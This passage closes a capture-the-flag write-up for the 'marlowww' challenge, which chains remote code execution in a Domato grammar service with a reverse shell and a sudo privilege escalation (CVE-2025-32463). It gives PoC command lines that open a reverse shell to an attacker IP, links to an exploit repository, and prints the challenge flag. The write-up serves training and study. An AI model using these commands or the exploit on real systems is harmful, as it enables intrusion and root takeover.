- ✅ **Follow principle of least privilege** - Minimize permissions at every layer

### For Penetration Testers

- 🔍 **Research unfamiliar technologies** - Understanding Domato was key to exploitation
- 🔍 **Read documentation thoroughly** - Python function feature was documented
- 🔍 **Connect challenge hints to vulnerabilities** - "marlowww" → CVE-2025-32463
- 🔍 **Enumerate thoroughly** - Finding custom sudo build was crucial
- 🔍 **Handle timeouts creatively** - Background execution for reverse shells
- 🔍 **Stay updated on recent CVEs** - CVE-2025-32463 was relatively new
- 🔍 **Chain vulnerabilities** - RCE alone wasn't enough, needed privesc

### For CTF Players

- 📚 **Challenge names are hints** - "marlowww" directly pointed to the privesc method
- 📚 **Hard challenges require research** - Don't expect to know every exploit
- 📚 **Test incrementally** - Build payloads step by step
- 📚 **Understand your tools** - Know how Domato works, not just how to use it
- 📚 **Check for custom builds** - `/opt/` directory revealed custom sudo
- 📚 **Be patient with shells** - Reverse shells can be tricky to stabilize

---

## Tools Used

| Tool | Purpose |
|------|---------|
| **Burp Suite** | HTTP request interception and analysis |
| **curl** | Sending POST requests with payloads |
| **Netcat** | Reverse shell listener |
| **Python 3** | Exploit development and scripting |
| **Git** | Cloning CVE-2025-32463 exploit |
| **Domato** | Understanding the grammar engine |
| **CVE-2025-32463 Exploit** | Privilege escalation from appuser to root |

---

## Timeline

| Time | Action |
|------|--------|
| T+00:00 | Initial recon, accessed web interface |
| T+00:05 | Tested basic Domato grammar submissions |
| T+00:10 | Analyzed source code, discovered Python function feature |
| T+00:15 | Researched Domato documentation and API |
| T+00:25 | Crafted first RCE payload (failed due to wrong format) |
| T+00:35 | Discovered `!begin lines` requirement for `_generate_code()` |
| T+00:40 | Achieved RCE, tested with simple commands |
| T+00:50 | Attempted reverse shell (timeout issues) |
| T+01:00 | Solved timeout with background execution |
| T+01:05 | Established reverse shell as appuser |
| T+01:10 | Upgraded shell, started enumeration |
| T+01:20 | Found sudo 1.9.16p2 and custom build in /opt/ |
| T+01:30 | Connected "marlowww" hint to CVE research |
| T+01:40 | Discovered CVE-2025-32463 affecting sudo 1.9.16p2 |
| T+01:45 | Cloned exploit repository |
| T+01:50 | Executed exploit, gained root access |
| T+01:55 | Located and captured flag |

**Total Time:** ~2 hours (including research)

---

## Proof of Concept Script

A complete automated PoC script (`poc.py`) is available that handles:
- Payload generation
- Reverse shell establishment
- Error handling
- Post-exploitation instructions

**Usage:**
```bash
# Install dependencies
pip3 install requests colorama

# Run exploit
python3 poc.py -t http://84.247.129.120:45003 -i YOUR_IP -p 8888

# Test RCE only
python3 poc.py -t http://84.247.129.120:45003 -i YOUR_IP -p 8888 --test "whoami"
```

The script features:
- Color-coded output for clarity
- Automatic payload generation
- Timeout handling
- Step-by-step post-exploitation guide
- Multiple exploitation modes (reverse shell, command execution, custom)

---

## References

- **Domato - Google Project Zero**: https://github.com/googleprojectzero/domato
- **Domato Grammar Documentation**: https://github.com/googleprojectzero/domato/blob/master/README.md
- **CVE-2025-32463 Exploit**: https://github.com/kh4sh3i/CVE-2025-32463
- **Reverse Shell Cheat Sheet**: https://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet
- **Python Pickle Security**: https://docs.python.org/3/library/pickle.html
- **OWASP - Deserialization**: https://owasp.org/www-community/vulnerabilities/Deserialization_of_untrusted_data
- **Container Security Best Practices**: https://cheatsheetseries.owasp.org/cheatsheets/Docker_Security_Cheat_Sheet.html

---

## Conclusion

"marlowww" was an excellent hard-difficulty challenge that combined:
1. **Obscure technology exploitation** (Domato grammar engine)
2. **Creative problem-solving** (timeout bypass)
3. **Privilege escalation** (CVE-2025-32463)
4. **Research skills** (connecting hints to vulnerabilities)

The challenge demonstrated how seemingly innocent features (grammar parsing, Python function execution) can become critical vulnerabilities when exposed to untrusted input.

### Key Takeaways:

- **Context matters** - Domato is safe for fuzzing, dangerous for web apps
- **Features can be vulnerabilities** - Python function execution was by design
- **Chain your exploits** - RCE + Privesc = Complete compromise
- **Hints are valuable** - "marlowww" directly pointed to the CVE
- **Research is essential** - Understanding Domato and recent CVEs was crucial
- **Custom builds are suspicious** - `/opt/sudo-1.9.16p2/` was a red flag

The challenge name "marlowww" likely references either the researcher who discovered CVE-2025-32463 or is a play on "Marlowe" (the playwright) fitting the grammar/language theme of Domato.

Thanks to **Orbis** for creating this challenging and educational CTF problem that teaches important lessons about:
- Code generation security
- Input validation
- Privilege escalation
- Container security
- The importance of keeping software updated

**Flag:** `flag{marlow_will_always_be_the_goat}`

**Author:** Orbis  
**Date:** November 2025  
**Challenge:** marlowww  
**Category:** Web Security / RCE / Privilege Escalation  
**Difficulty:** Hard
